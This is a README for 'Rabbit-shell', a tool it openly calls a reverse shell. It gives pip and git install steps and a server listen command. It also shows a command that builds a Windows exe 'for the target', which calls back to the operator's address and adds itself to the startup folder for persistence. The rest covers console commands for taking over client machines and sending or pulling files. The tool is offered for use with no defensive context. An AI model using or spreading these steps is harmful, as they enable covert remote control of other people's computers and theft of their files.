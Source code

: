 # Rabbit-shell

###### Rabbit shell reverse shell tool.



##  Installation.



### By pip.

```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.

# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```













## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3

